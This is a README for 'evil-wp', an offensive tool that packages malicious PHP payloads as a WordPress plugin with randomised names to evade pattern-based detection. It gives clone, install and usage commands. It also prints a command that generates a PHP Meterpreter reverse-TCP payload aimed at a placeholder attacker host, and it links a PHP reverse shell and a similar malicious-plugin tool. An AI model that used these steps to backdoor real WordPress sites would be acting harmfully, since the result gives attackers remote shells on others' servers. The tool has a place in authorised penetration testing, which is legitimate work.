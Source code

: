 # evil-wp
This is a small project to wrap malicous PHP payloads into a WordPress plugin.

Random name generation is thrown in for fun and a slight attempt at reducing detection by template pattern matching.

## Pre-Requisites
This attack requires the ability to install plugins to the target WordPress installation.

## Installation
To install this simple tool, clone this repository and use pip to install the requirements.

``` bash
$ git clone https://github.com/svespie/evil-wp
$ cd evil-wp
$ pip install -r requirements.txt
```

Consider using a virtual environment as a matter of best practice.

## Usage
``` bash
$ python evil-wp.py -h
$ python evil-wp.py -n <plugin_name> -p "<payload>"
```

* the plugin name should be unique to the installation being attacked
* the payload can be any valid PHP code


## Example Payload Generation
msfvenom is a great place to start with for generating PHP payloads.

``` bash
$ msfconsole -p php/meterpreter/reverse_tcp LHOST=<attacker_host LPORT=<listening_port> -e php/base64 -f raw
```

Any valid PHP will work, including traditional PHP reverse shell payloads such as this one: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

Good luck!

## Similar Projects
* https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py (a nifty tool that automates meterpreter use)